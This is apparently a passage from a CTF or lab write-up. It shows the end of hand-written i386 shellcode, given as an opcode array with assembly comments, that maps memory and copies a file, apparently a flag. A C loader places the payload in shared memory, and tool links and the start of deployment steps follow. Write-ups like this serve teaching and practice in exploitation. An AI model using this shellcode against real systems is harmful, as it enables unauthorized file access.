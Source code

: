 ```c
    /* mmap_arg.prot = PROT_READ+PROT_WRITE */
    0xc6, 0x45, 0x08, 0x03,             // mov     byte ptr [ebp+8],3

    /* void *dst = sys_mmap(&mmap_arg) */
    0x8d, 0x42, 0x5a,                   // lea     eax, [edx+90]   ; __NR_MMAP
    0x89, 0xeb,                         // mov     ebx, ebp        ; &mmap_arg
    0xcd, 0x80,                         // int     0x80            ; syscall
    0x89, 0xc7,                         // mov     edi, eax        ; EDI = dst

    /* memcpy(dst, src, 38) */
    0x8d, 0x4a, 0x26,                   // lea     ecx, [edx+38]   ; file length
    0xf3, 0xa4,                         // rep     movsb

    /* exit(0) */
    0x8d, 0x42, 0x02,                   // lea     eax, [edx+2]    ; __NR_exit
    0xcd, 0x80,                         // int     0x80            ; syscall
};

int main() {
    int shm_id = shmget(31337, 100, IPC_CREAT+S_IRWXU+S_IRWXG+S_IRWXO);
    void *shm_ptr = (void *)shmat(shm_id, 0, 0);
    memcpy(shm_ptr, opcodes, sizeof(opcodes));
    printf("Payload size: %d bytes\n", sizeof(opcodes));
    return 0;
}
```

Tools used:

*   [shell-storm.org online assembler](https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=xor+++++edx%2Cedx%0D%0A%0D%0Apush++++0x67%0D%0Apush++++0x616c662f%0D%0Apush++++0x49412f65%0D%0Apush++++0x6d6f682f%0D%0A%0D%0Apush++++edx%0D%0Apush++++edx%0D%0Apush++++1%0D%0Apush++++1%0D%0Apush++++38%0D%0Apush++++edx%0D%0Amov+++++ebp%2Cesp%0D%0A%0D%0Alea+++++eax%2C+%5Bedx%2B5%5D%0D%0Alea+++++ebx%2C+%5Bebp%2B24%5D%0D%0Axor+++++ecx%2C+ecx%0D%0Aint+++++0x80%0D%0Amov+++++%5Bebp%2B16%5D%2C+eax%0D%0A%0D%0Alea+++++eax%2C+%5Bedx%2B90%5D%0D%0Amov+++++ebx%2C+ebp%0D%0Aint+++++0x80%0D%0Amov+++++esi%2C+eax%0D%0A%0D%0Amov+++++word+ptr+%5Bebp%2B30%5D%2C+0x5747%0D%0A%0D%0Alea+++++eax%2C+%5Bedx%2B5%5D%0D%0Alea+++++ebx%2C+%5Bebp%2B24%5D%0D%0Alea+++++ecx%2C+%5Bedx%2B2%5D%0D%0Aint+++++0x80%0D%0Amov+++++%5Bebp%2B16%5D%2C+eax%0D%0A%0D%0Amov+++++byte+ptr+%5Bebp%2B8%5D%2C3%0D%0A%0D%0Alea+++++eax%2C+%5Bedx%2B90%5D%0D%0Amov+++++ebx%2C+ebp%0D%0Aint+++++0x80%0D%0Amov+++++edi%2C+eax%0D%0A%0D%0Alea+++++ecx%2C+%5Bedx%2B38%5D%0D%0Arep+++++movsb%0D%0A%0D%0Alea+++++eax%2C+%5Bedx%2B2%5D%0D%0Aint+++++0x80&arch=x86-32&as_format=carray#assembly)
*   [syscalls.mebeim.net table for IA-32 ABI](https://syscalls.mebeim.net/?table=x86/32/ia32/latest)

That final `exit()` is not really relevant, because that syscall will fail for exactly
the same reasons as others (BPF filter). But, I like my code clean &#128578;


# Putting it to work

*   Compile the `inject` binary using a `i386/ubuntu:18.04` Docker image (or another system with
    the same C library):
